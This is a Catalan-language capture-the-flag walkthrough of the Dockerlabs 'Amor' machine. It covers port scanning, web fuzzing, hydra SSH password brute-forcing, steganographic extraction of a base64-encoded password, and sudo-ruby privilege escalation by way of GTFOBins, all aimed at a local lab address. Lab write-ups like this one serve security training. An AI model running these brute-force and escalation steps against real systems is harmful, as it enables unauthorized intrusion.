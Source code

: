 # Amor

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:10

## Reconeixement

### NMAP

```bash
sudo nmap -p- -sS -sCV --min-rate 5000 -vvv  -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 11.png>)

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted
cat targeted -l ruby
```

![image.png](<imagenes/image 12.png>)

Web :

![image.png](<imagenes/image 13.png>)

Possibles usuaris :

Carlota
Juan

### Provem possibles usuaris SSH

### Fuzzing WEB

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u [http://172.17.0.2/](http://172.17.0.2/) -x html,php,php7,txt,py
```

![image.png](<imagenes/image 14.png>)

Fuff per trobar directoris :

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "[http://172.17.0.2/FUZZ](http://172.17.0.2/FUZZ)" -recursion -recursion-depth 2 -c -ic -v
```

### Explotacio

Provem hydra amb els usuarios trobats:

Juan : no troba pass
Carlota: babygirl

provem conexio ssh

Entrem com a carlota i trobem fitxer:

![image.png](<imagenes/image 15.png>)

Descarreguem fitxer amb :

```bash
ssh [carlota@172.17.0.2](mailto:carlota@172.17.0.2) 'cat /home/carlota/Desktop/fotos/vacaciones/imagen.jpg' > /home/fil/Desktop/docker/imagen.jpg
```

Mirem contingut amb Exiftool, pero no trobem res

![image.png](<imagenes/image 16.png>)

Trobem un altre usuari:

oscar
ubuntu

Provem hydra

```bash
hydra -l oscar -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -vV
```

No trobem pass

Probem a extreure info amb :

```bash
sudo steghide extract -sf imagen.jpg
```

Trobem fitxer secret.txt

![image.png](<imagenes/image 17.png>)

ZXNsYWNhc2FkZXBpbnlwb24=

Decodifiquem cadena:
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

ZXNsYWNhc2FkZXBpbnlwb24=:eslacasadepinypon

Probem aquest password amb l'altre usuari

Oscar
eslacasadepinypon

Entrem per ssh

```bash
ssh [oscar@172.17.0.2](mailto:oscar@172.17.0.2)
Pass: eslacasadepinypon
```

Busquem fitxers

![image.png](<imagenes/image 18.png>)

Al escriptori hi ha un txt:

![image.png](<imagenes/image 19.png>)

### Escalada

Busquem permisos amb sudo

```bash
Sudo -l
```

![image.png](<imagenes/image 20.png>)

Podem explotar: ruby

Busquem GTOBINS:

![image.png](<imagenes/image 21.png>)

Executem :

![image.png](<imagenes/image 22.png>)

![image.png](<imagenes/image 23.png>)